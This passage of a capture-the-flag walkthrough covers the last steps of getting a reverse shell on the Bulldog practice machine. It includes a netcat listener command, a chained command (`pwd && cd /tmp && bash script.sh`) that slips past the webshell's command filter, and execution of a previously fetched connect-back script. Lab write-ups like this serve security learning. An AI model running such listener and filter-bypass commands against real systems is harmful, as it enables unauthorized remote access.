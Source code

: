 <br>
![A28](https://i.imgur.com/QktUelE.png)
<br>


When you return to your Kali terminal window, you will see that the file has been accessed by Bulldog's IP.


<br>
![A29](https://i.imgur.com/Z28B1JU.png)
<br>


### Shell Step 4 - Stopping the Webserver and Starting the Listener

Kill the python hosting process with `CTRL-C`
We need will start up the `nc` listener.

*	`-l` tells `nc` to listen
*	`-n` tells `nc` to not bother trying to convert IP addresses into hostnames (like bulldog.ctf)
* `-v` tells `nc` to be verbose - outputting more information for us to read
*	`-p` specifies at what port nc should run. This needs to match the port our shell script uses to connect to Kali.

`nc -lnvp 1234`

<br>
![A30](https://i.imgur.com/sFk1wOR.png)
<br>


#### Shell Step 5 - Finally Popping the Shell

With Kali standing by listening, we just need Bulldog to start talking.

*	`pwd` to trick the if statement
*	`cd /tmp` to return us to the directory where the script is stored
*	`bash script.sh` to run it!

In the webshell run `pwd && cd /tmp && bash script.sh`

If it works, the browser window should say "connecting" but not actually load.

<br>
![A31](https://i.imgur.com/UCeeZW7.png)
<br>

Check your terminal window where you put in the `nc` command. <br>
It will contain a command shell for `django@bulldog` !

<br>
![A32](https://i.imgur.com/9ULe19U.png)
<br>
